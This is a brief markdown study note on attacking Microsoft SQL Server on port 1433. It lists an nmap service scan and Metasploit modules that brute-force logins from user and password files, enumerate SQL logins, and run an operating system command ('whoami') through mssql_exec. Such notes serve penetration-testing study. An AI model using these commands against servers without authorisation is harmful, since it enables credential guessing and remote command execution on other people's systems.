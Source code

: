 ```yaml
---
up: "[[SQL]]"
---
```


# MSSQL- Metasploit

Port 1433

```bash
nmap -sV -p 1433 --script ms-sql-info
```

Using metasploit to brute force user and passwords:

```bash
> use auxiliary/scanner/mssql/mssql_login
> set user_file users.txt
> set pass_file pass.txt
> run
```

```bash
> use auxiliary/admin/mssql/mssql_enum
> use auxiliary/admin/mssql/mssql_enum_sql_logins
> set user_file users.txt
> set pass_file pass.txt
> run
```

```bash
> use auxiliary/admin/mssql/mssql_exec
> set cmd whoami
> run
```
